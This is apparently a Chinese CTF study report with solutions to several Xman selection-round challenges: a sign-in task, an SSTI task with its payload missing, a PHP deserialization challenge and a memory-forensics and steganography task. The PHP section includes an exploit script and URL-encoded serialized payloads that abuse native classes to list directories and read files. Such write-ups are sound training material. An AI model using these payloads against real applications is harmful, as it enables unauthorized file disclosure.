




# Nepnep学习报告 web第九周

- Xman选拔赛

## 签到

GET传参a=1, POST传参b=2



flag

```
flag{you_are_great!!!}
```

## easyssti

`{{}}`会报错, ``可以, 测试后感觉需要双写绕过, 但是可以通过jinjia2特性拼接关键字绕过

```
name=
```

结果如下



flag

```
flag{zPkb3tzUW8m0KuSfPoPqgSU37I4ui2hZ}
```

## easyphp

本题的 `__wakeup` 是关键, 可以触发原生类

```php
    public function __wakeup()
    {
        $this->check = new Filter;
        if($this->check->vaild($this->para) && $this->check->vaild($this->class)) {
            echo new  $this->class ($this->para);
        }
        else
            die('what?Really?');
    } 
```

编写exp

```php
<?php
class XMAN{
//    public $class='FilesystemIterator';
//    public $para=".";  //first
//    public $para="./xxxXXXmMManNNn";  //second
    public $class='SplFileObject';
    public $para="./xxxXXXmMManNNn/f1a4.php";  //third
}

$a  = new XMAN();
echo urlencode(serialize($a));
```

三个payload按顺序打, 就能找到flag了

```
?xtcf=O%3A4%3A%22XMAN%22%3A2%3A%7Bs%3A5%3A%22class%22%3Bs%3A18%3A%22FilesystemIterator%22%3Bs%3A4%3A%22para%22%3Bs%3A1%3A%22.%22%3B%7D
?xtcf=O%3A4%3A%22XMAN%22%3A2%3A%7Bs%3A5%3A%22class%22%3Bs%3A18%3A%22FilesystemIterator%22%3Bs%3A4%3A%22para%22%3Bs%3A16%3A%22.%2FxxxXXXmMManNNn%22%3B%7D
?xtcf=O%3A4%3A%22XMAN%22%3A2%3A%7Bs%3A5%3A%22class%22%3Bs%3A13%3A%22SplFileObject%22%3Bs%3A4%3A%22para%22%3Bs%3A25%3A%22.%2FxxxXXXmMManNNn%2Ff1a4.php%22%3B%7D
```

结果如下



flag

```
flag{928erf51ab894a64f7865cf3c2128b34}
```

## try_all_volatility

提示取证, 找图片

```
volatility -f mem imageinfo
```

得知 profile, filescan 找寻图片(试了.png和.jpg发现.png有)

```
volatility -f mem --profile=WinXPSP2x86 filescan | grep ".png"
```

下载图片

```
volatility -f mem --profile=WinXPSP2x86 dumpfiles -Q 0x00000000a3436498 -D ./ -u

```

蓝色照片, 有隐写, zsteg测一下

```
zsteg -a res.png
b1,b,lsb,yx        .. file: Zip archive data, at least v2.0 to extract
zsteg -a res.png -e 'b1,b,lsb,yx'>find
```

360压缩包直接打开里面的 flag.txt



flag

```
flag{Waw!_Y0u_D1d!_it_^_^}
```

